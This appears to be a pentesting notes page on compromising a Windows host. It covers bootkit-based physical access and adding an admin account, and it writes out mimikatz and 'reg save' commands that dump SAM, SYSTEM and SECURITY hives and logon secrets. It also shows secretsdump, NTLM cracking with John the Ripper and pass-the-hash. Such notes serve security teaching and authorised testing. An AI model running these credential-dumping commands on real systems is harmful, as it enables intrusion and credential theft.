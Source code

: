 # Pentesting a Windows host

## Physical access

If you have physical access to a Windows machine with no BIOS password set or Bitlocker the NTFS filesystem can be accessed by livebooting Kali Linux into the machine.

A bootkit like [GrabAccess](https://github.com/Push3AX/GrabAccess) can potentially bypass Bitlocker if it is enabled, but no password is set, and boot with SYSTEM privileges (Windows superuser privileges). This will allow disabling Microsoft Defender and running any commands or tools as SYSTEM. A potential workflow is to use the bootkit to add a new Administrator account and then boot back into Windows normally and log with the newly created account.

## Stealing credentials

NTLM (New Technology LAN Manager) hashes are used in Windows authentication. Obtaining a NTLM has for a user potentially allows the cracking of the password for that user or impersonating that user using pass-the-hash attacks.

### Extracting credentials

Note that antiviruses such as Microsoft Defender will try to block different credential extraction methods.

A traditional method for extracting credentials is to use the [mimikatz](https://github.com/gentilkiwi/mimikatz) tool:

```
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

An alternative method is (as Administrator):

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

Transferring the files created by the above commands to a Kali machine allows extracting the hashes using either `samdump2 system sam`
or `impacket-secretsdump -sam sam -security security -system system LOCAL`.

More information and tools for credential extraction is documented at [HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials).

### Hash cracking

An obtained NTLM hash may be attempted to be cracked using John The Ripper and a wordlist in Kali:

```
echo "Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::" > hash.txt
john --FORMAT=NT --wordlist=<wordlist> hash.txt
```

Kali Linux has some built-in wordlists at `/usr/share/wordlists`.

Additional wordlists can be obtained from [https://weakpass.com/wordlist/](https://weakpass.com/wordlist/)

### Pass-the-hash

An obtained hash may be potentially used by pass-the-hash to authenticate to a remote system via SMB, MSRPC or RDP. A tool for this is for example [`impacket`](https://www.kali.org/tools/impacket-scripts/) in Kali. 




